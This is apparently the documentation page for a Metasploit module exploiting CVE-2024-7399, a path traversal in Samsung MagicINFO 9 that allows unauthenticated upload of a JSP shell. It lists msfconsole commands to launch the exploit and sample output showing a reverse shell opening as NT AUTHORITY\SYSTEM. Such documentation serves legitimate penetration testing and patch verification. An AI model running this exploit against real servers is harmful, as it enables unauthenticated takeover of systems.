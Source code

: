 ## Vulnerable Application

**Vulnerability Description**

This module exploits a path traversal vulnerability in Samsung MagicINFO 9 <= 21.1050.0 (CVE-2024-7399).

Remote code execution can be obtained by exploiting the path traversal vulnerability (CVE-2024-7399) in the SWUpdateFileUploader servlet,
which can be queried by an unauthenticated user to upload a JSP shell.
By default, the application listens on TCP ports 7001 (HTTP) and 7002 (HTTPS) on all network interfaces and runs in the context of NT
AUTHORITY\SYSTEM.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor]
(https://www.samsung.com/us/business/solutions/digital-signage-solutions/magicinfo/).

**Successfully tested on**

- MagicINFO 9 21.1040.2 on Windows 10 (22H2)

## Verification Steps

1. Install Postgres or MySQL
2. Install the application
3. Activate the license
4. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/windows/http/magicinfo_traversal 
msf6 exploit(windows/http/magicinfo_traversal) > set RHOSTS <IP>
msf6 exploit(windows/http/magicinfo_traversal) > exploit 
```

You should get a shell in the context of `NY AUTHORITY\SYSTEM`.

## Options

### DEPTH
The traversal depth. The FILE path will be prepended with ../ * DEPTH.

## Scenarios

Running the exploit against MagicINFO 9 21.1040.2 on Windows 10 should result in an output similar to the
following:

```
msf6 exploit(windows/http/magicinfo_traversal) > exploit 

[*] Started reverse TCP handler on 192.168.137.204:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] MagicINFO version detected: MagicINFO 9 Server 21.1040.2
[+] The target appears to be vulnerable.
[*] Uploading payload...
[*] Upload successful
[*] Payload executed!
[*] Command shell session 3 opened (192.168.137.204:4444 -> 192.168.137.230:50038) at 2025-05-14 17:36:47 -0400


Shell Banner:
Microsoft Windows [Version 10.0.19045.3208]
(c) Microsoft Corporation. All rights reserved.

C:\MagicInfo Premium\tomcat\bin>
-----
          

C:\MagicInfo Premium\tomcat\bin>whoami
whoami
nt authority\system

C:\MagicInfo Premium\tomcat\bin>
```
